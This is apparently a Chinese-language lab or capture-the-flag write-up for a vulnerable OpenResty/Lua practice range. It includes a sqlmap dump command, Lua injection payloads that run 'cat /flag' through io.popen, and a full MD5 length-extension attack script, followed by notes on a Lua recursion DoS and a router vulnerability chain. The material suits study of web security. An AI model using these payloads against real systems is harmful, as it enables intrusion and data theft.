






# writeup #

<br>

### 1.xss ###
没有任何防护，直接 xss 即可


<br>

### 2.sql ###
sqlmap 一把梭，靶场没回显，时间盲注需要一些时间
```
python sqlmap.py -u http://localhost:9000/sql-injection --dbms=mysql --data "{\"username\":\"a\",\"password\":\"a\"}" -D test -T user1 --dump
```


<br>

### 3.命令注入 ###
使用;截断，执行命令


<br>

### 4.文件操作 ###
#### 目录穿越 ####

#### 目录截断 ####

#### 思考 ####
1.将请求方式改为 post （这更符合提交场景)  
2.修改 burpsuite 请求，使用空字符，发现后端处理出错了

  

3.修改 lua 代码，捕获异常

  

4.再次请求，发现是解析 json 时因为 \x00 是字符结束符的原因导致解析失败

  

5.修改代码，使后端直接将请求的参数拼入路径中，成功截断

  

小结：在截断场景下攻击成功与否与参数解析的方式也有关系，需要深度检视代码逻辑。

<br>

### 5.文件包含 ###
外部传入的数据注射到本地文件中，再通过文件包含的方式读取  




通过闭合前后代码片段，将恶意代码注入对应文件中，再通过 require 本地包含调用  

poc：
```
')local result = io.popen("cat /flag")ngx.say(result:read("*a"))ngx.say('
```


<br>

### 6.代码注入 ###
与 5 类似，直接注入 lua 代码  
poc：
```
local result = io.popen("cat /flag")ngx.say(result:read("*a"))
```


<br>

### 7.不安全哈希算法 ###
#### 弱密码碰撞 ####

#### md5 长度扩展攻击 ####
长度扩展攻击的前置知识参考
https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks  

这里使用 python 的 hashpumpy 库，基于 hashpump 封装的，下边脚本需要在 linux 下用 python2 运行，运行前需要安装依赖库文件
```
apt-get install g++ libssl-dev
pip install hashpumpy
```
poc:
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import requests
import time
import hashpumpy

URL = "http://localhost:9000/extend"
TIMESTAMP = str(int(time.time()))

# 第一步：获取 md5(key + timestamp) 的值
html = requests.get(url=URL+"?hash=&username=&flag=0")
hexdigest = html.text.split('\n')[0]
print("inital hash: " + hexdigest)

# 第二步：使用 hashpumpy 库计算攻击者需要构造填充的用户名 username 并根据第一步获取的哈希值推算 md5(key + timestamp + username) 的值 hash
results = hashpumpy.hashpump(hexdigest,
                          TIMESTAMP, 'lockcy', 14)
hash = results[0]
username = results[1]
username = repr(username).strip("\'").replace('\\x', '%').split(TIMESTAMP)[1]
print("evil username: " + username)

# 第三步：使用第二步的 username 和 hash 绕过验证，获取 flag
html = requests.get(url=URL+"?hash={0}&username={1}&flag=0".format(hash, username))
print(html.text)
```
攻击结果:


<br>

## others ##
### x站 lua 脚本死循环导致的资源耗尽问题 ###
背景：X 站在线业务 SLB 基于 OpenResty 构建  
现象：CPU 100% ,正常业务无法访问  
根因：新上线的 lua 代码在特定情况下执行时死循环
```
local function _gcd(a,b)
    if b == 0 then
        return a
    end
    return _gcd(b, a%b)
end

_gcd(1,'0')
```
发起请求，处理请求的 worker process cpu 打满，openresty 应用无法正常访问


<br>

### x米 路由器 lua 逻辑漏洞###
结合了三个漏洞：  
1.nginx 别名配置不当导致路径穿越  
2.lua 调用系统命令解压文件中存在逻辑漏洞  
3.dnsmasq 执行命令  
https://zhuanlan.zhihu.com/p/245070099
